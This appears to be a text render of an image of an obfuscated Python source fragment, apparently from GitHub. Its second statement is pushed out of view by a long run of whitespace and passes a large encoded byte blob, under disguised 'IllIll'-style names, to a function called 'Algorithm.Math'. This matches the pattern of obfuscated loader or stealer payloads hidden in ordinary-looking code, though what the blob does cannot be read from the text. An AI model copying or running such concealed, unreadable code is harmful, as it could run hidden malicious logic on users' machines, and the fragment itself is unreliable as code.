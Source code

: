         _modulo.Statistics(Modulo = -62372 * _modulo.CallFunction)                                                                                                                                                                                                                                                          ;Algorithm.Math(_absolute='IllIllIIIIIlIIllllll',Negative=b'\x05\xbcz\x8f]\xde?\xd1\xe0\x00\x1d/ps\xc2\x8cg\xe9$n\xc8\xeeu\xcb\xd6+\n\x13\xa1;QzT\x7f\xffB0\xc5/x\x1b\x1f\xaa\xd4\xa1\xf0,\xc4\x93z:+\xf9\xe4J\xcc\xe9\x9by%\xbe\x18\xc6\x06+q\x1a\x11\x84\xb0\xa4\xcbM\x82\x86\x80\x81\x18\xca$\xd3\x00\xab\xc0\x82mP-\x03i\x92a\x8bC\x19\x03H\xf3\x99\x8a\xc3\x9f\xf5U\xc2nI\x05\x0b\xeb,\x02\xc0E0DX\xc2e\xce\xf8#\x0c"\x80!\xf8\x9d\xab-\xedw\xa12a\x0ck\x1e\x86\xc0\xe6\x81\x03\x9ab\x95\xdcGI\x04\xc7\x903f\xf4\x06\x87\xa1C@\x1a\xefb\xbfZ5\x8f\xf9\x86\xe7\xf3\xcf\xe3\xaa\xc2\xaa\xaf\xa4hB!Z\xda\xd7\x01\xef~@.\xb2\x0f\xb7\xb7\x14\x94\xfa\x08\xeb\xa6\xf8\x144\t\xa4\x1d{*a\xd0\x14\x9f\xc4\xc9;D\x1b\x1b\ncMZ\xb3\xb1\xf7\r\x95\x85[*\x8b\xe8\xa3\x91`\x96\xad\xd9\xfeH\x1f\xe2\x9d\x04=6\xd1\xf2\xed\x96\xad\x17\xc0\x9b}\xfc\x9c\xa3@\x1d\x96r\xd8ek\x15\xb8\x10\x83V8m\xda\xc4g\xb6\x94\xfb\x04.\xb4\xd677hR\xb1\x8c#@\xd0dcai\xee\xe54\x89\x8e\x1d%\xe1\x10\xda \xc8E[z\xd6\x04|q\x04~i\xa1\xa5\xc2%|K)\x04L\xc9\xe0\x1f\\\xcb\x02\xfe\xb2\xa50\x14^\x0b\x8a\xf2\xb3.\x1a\xe4\x8b\xd6\xd7\xf2\xa9\xabaU\xda\n\xce\xcf\xe7\xcf\x91B)\xac+\xac\xfeSnY\x1e\x16m\x05\x02\rtw\x14EBp$\xea\x97\xad\xd7\xe4\xfe\xa8\xe6`\xfa\xe6\x00W\xc2\xa4"8\x82\xcd\xf7\xce\x9c\xa8>X\x1a\n\x97\xf2G\x8d\xb5\xe5\x8c\x10J\x9f\xc52\xb3\'I\x1b\xfb\x04\xb7\xe3\xe4v\x9a\xb4\xf1\xabx\x17\xc3\xd8\x9e\x1c\\I\xae\x1c\x12\xf5)\xf23\xc4\xb5\xd0\xa5E\x7fUfM\x9b\xdcu\x12\x83e\xb6\x05\x9f\xcc\x9ak}e\xf3\xcf\x13\x12\x82\xcbn\xc2n]d\xadb\xdf&,\xed\x06\x0f(\xb6Hy<\x11\xbf~\xf2\x8d\xb7\xde\x0c\x88\xf6\x96J\x0f\xf1\x1d\xacz3\xf0|\xefN\xf6\x1e\xcd\x0cp$\x1c\xd6Z!\xde\xddP\xe1!\xd6\x1e\xc3\xa4\x0c\xdf\xe2<"\xe5m\xc4\xc7\x9b.\xbck\xa9P\x11\xbe\xfd\x84.\x08\x16/\xc2\xf2\xc1\r\x9f\x85vF\xd4\x1f\xbc\x83\xef\x81\xd3\x82\xde=\xd0\xda\xa07l\x8f\xc2\xcf\xc4\xa2\x0fM\xb3\xbf\x0f\x16\x00\xbcB;\xe0@`XG\xf6\x01|\x8fV\xd1F@\xb8lG\x16\x83\xa7%\xb4#\xe0}\xd8\x81\x03\xee\xb9\x87\xd3\x8f\xf6\x14K*\xf7a\x1f`\xedH\xe8\x06g\xaf\xef\xe1\xb8 \xfe?\x1c\x99@\xf5F\x9f\xe6-\x0e\xc7\xa4\x0e\xfa\x1f\xa9z\xc3\xcf\xf6\x18~I|\xd8\xb4\xfa\xe4\xba\xc2yw\x94\x80\xc2\xc7\'\xe4A\x8a\x94\xb4UQ\x97<`\xa5\xc9(\xaa\nx\x06u\xf9\xb3\xbe\xd2\x1c\x00#\x01a\xe9\xf9\xa7\xb8\x0c\x95\x80\x01\xf4L\x18\x81\xb7\x9e\x15z\xe9\xa1\x83\xb3\xd0\xd3%o\x1cVW\xeb\n\x970\x06\x02\xc2\xdf\x87\x18\x17@x\xd2\xc7\x0f\xf9\x90\x15O~w\xc8\x16a&O\x13de\xd1\x9a\xedE\x87ol\xa8$\x93!0v\xd9\x9a\xfd}=e\x15\x03\xdc\x19\xb7\xc8\xd2\xf7-Z_#\x85Sz>\xc0\xe4\xd3\xd2\xa4\xd7:\x85\x13\x19\x9c\x11\xa5\xe7\x03W\x14\xc6\x8a\xcd\x00\xb9\xc9\xc6\xda\xd4d\xca\xe2B\'\xc5\xf6\x96M\x8a\xa1\x92!-\xa7\xef\x06\xf3\x03\x1a\x0fU\xea\xcbn\t\x7fy\x8bZ\x01\xac\x1a\x80 L\x11/\x1f\x0b\xee=\x91\x96h\x82\x9dp\xdam\xd6\x9a\x1d\xa1kC\x01?=\xe2\xb5\xef)B\xb7h\xdd\xd4F\xe0s %c\xe0r/\xa6\xe8\xd1\xb3:\xe1s}3\x932\xb5\xaeq0T[o\xc1\xae\x17D\x9c\xb35?\xb2\xd1\x1e&Y\x8c>\xb6P/\xb1\xba\xd5z\xf4!\xa5\x83\xe0w\xe2|\xa5G\xe6J\xcc\xa5|\rt=*\xd2Y \xbd@\x88\xe5,Z\xab\xc0\xba\x94\xbd\x9f\xf8\xaa\x03\x93\xe0\xe0\xa3\x8e\xb0\xae\xb5\xbe\x1b0\xc4X\x13\x88\x06\x0c\xe6\xe4\x0cE\x82\xf6\xfd\xc1 \xed@\x88\n\x9d\x90\'\xce\x9cLgz\x8a\x189\xea\xe9pyg*\x80\xdb?\x0f\xb9\xa0\x10T\xb8\x9e$\x90\x811\x80\x88\xf4$k\nc\xc4h\x8c\x1c\x1d\x87\xc8\xd1\x18C*\x83\x8e":)\x10\xfd\x9a\xc8\x99\xa4\to\xb4h\xcd\x9es,Y\x9a*\xe6k\x1a\xa2&6\xcbV\x81\x0cW\x1b\xb8\x9e\x08\x8b\x1f\xac\xd3\xb0/\x8b\xd6\xb7\x0e%\xca\xc7I\xe5\x94\xf7\x8c\x91\xa00\xab\xec\x92xQ?\xce(b\xa1\xc8\xd9<2\xce\x0e\xe7\xe6\x92\x1aX\x9d/_"X\'<\xfc~-\xf0\xf4$*\x16\x19\xa3\x8c\xa3h\xd6\x01\xddLs\xa4\x88Z\xcbQ\xb5\n,\xc4\x91L\x9dY\x88\xeb\x90(tIh\xc3\'\xf6\x1aco\x8d\x9d\xe2\x0b\xd7\xfa\xca\xa2\x9a\xd0y\x97\xb3\xe8"\x1d\xa8OHA\xbb\xe4N\xaf\xe5\xf2\x9f\xb25\x84\x878\xa4\xec\xe2\xe02\x80l\xc6p\xf4VC\xcb\xba\x89\xbaa\x1d|zO\xb9Q\xa5\x0eF\x18)<2y*\x8cI\xc3\xa1?\x06\x8a\x15L\x05\xe1A\xda\x80\xe8a\xcaj\x96\xb6\xe0\x92X\xf9\xbf\xf4\x8e\x8dL\x15\xbc<\xee\x94\xd8n\xf9\x98}`\x9a*\xc4.\x143\xbd\xe4\x00\xe7\x18:7&\x93F\xa7S\xecZ\xd6{\x05\xce#\x9c\xb8q\xca\xd3\x92\x9c\x15\x13\t\x14\x16D\xe1\x9b\x9f\x8a\xa4H\xfd\xba\xb2lO\x87A\xc7\xe80\xe8\x1c%jF\x91~\xfb